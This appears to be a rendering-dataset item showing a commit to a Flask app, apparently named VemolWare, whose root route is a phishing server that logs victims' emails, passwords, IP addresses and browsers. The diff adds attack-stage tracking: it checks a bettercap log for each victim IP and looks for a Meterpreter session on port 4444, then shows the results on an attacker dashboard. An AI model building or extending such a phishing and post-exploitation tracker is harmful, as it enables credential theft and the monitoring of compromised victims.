

Before and after one commit to B0rjitaaa/VemolWare, a Flask app: template code/templates/dashboard.html in a window 1280 px wide. Shown: the part 52-800 px from the top of the page. Run offline with Flask 2, Linux system fonts and the light colour scheme; the template is opened without the code that fills it: most values are stand-ins (such as "Sample title", 1, 10 or a date in 2020); some libraries are stand-ins or nearby versions.

Commit message:
New version.

```diff
--- a/code/app.py
+++ b/code/app.py
@@ -1,12 +1,23 @@
 import sys
 import json
 import csv
+import psutil
 from datetime import datetime
 from flask import Flask, request, render_template, redirect
 
 app = Flask(__name__)
 
-FIELDNAMES = ['ip_addr', 'email','password','user_agent','platform', 'date']
+FIELDNAMES = ['ip_addr', 'email','password','user_agent','platform', 'date', 'stage1','stage2', 'stage3', 'stage4']
+
+
+def check_stage(log_file, ip_addr):
+    with open(log_file) as f:
+        content = f.readlines()
+        return ip_addr in content
+
+
+def check_meterpreter_session(ip_addr):
+    return len([x for x in psutil.net_connections() if x.laddr.port == 4444 and x.raddr.ip == ip_addr]) > 0
 
 
 @app.route('/', methods=['GET', 'POST'])
@@ -22,9 +33,13 @@ def phishing_server():
                 'password': request.form['password'],
                 'user_agent': f'{request.user_agent.browser} - {request.user_agent.version}',
                 'platform': request.user_agent.platform,
-                'date': datetime.now().strftime('%H:%m %d-%m-%Y')
+                'date': datetime.now().strftime('%H:%m %d-%m-%Y'),
+                'stage1': check_stage('log_bettercap.txt', request.remote_addr),
+                'stage2': True,
+                'stage3': check_meterpreter_session(request.remote_addr),
+                'stage4': True if request.form['email'] and request.form['password'] else False,
             })
-        return redirect("https://www.google.com", code=302)
+            return redirect("https://www.google.com", code=302)
     return render_template(target, name='index')
 
 
@@ -40,6 +55,5 @@ def dashboard():
     )
 
 
-
 if __name__ == '__main__':
     app.run(host='0.0.0.0', port='80')
--- /dev/null
+++ b/code/requirements.txt
@@ -0,0 +1,5 @@
+Flask==1.0.2
+netifaces==0.10.7
+colorama
+argparse
+psutil
--- a/code/templates/dashboard.html
+++ b/code/templates/dashboard.html
@@ -222,6 +222,10 @@
                 <th>USER AGENT</th>
                 <th>PLATFORM</th>
                 <th>DATE</th>
+                <th>Stage1</th>
+                <th>Stage2</th>
+                <th>Stage3</th>
+                <th>Stage4</th>
               </tr>
             </thead>
             <tbody>
@@ -233,6 +237,10 @@
                   <td>{{ data.user_agent }}</td>
                   <td>{{ data.platform }}</td>
                   <td>{{ data.date }}</td>
+                  <td>{{ data.stage1 }}</td>
+                  <td>{{ data.stage2 }}</td>
+                  <td>{{ data.stage3 }}</td>
+                  <td>{{ data.stage4 }}</td>
                 </tr>
               {% endfor %}
             </tbody>
```
Also changed, not shown: code/vemol_ware.py (+9 -9 lines), 1 other file.
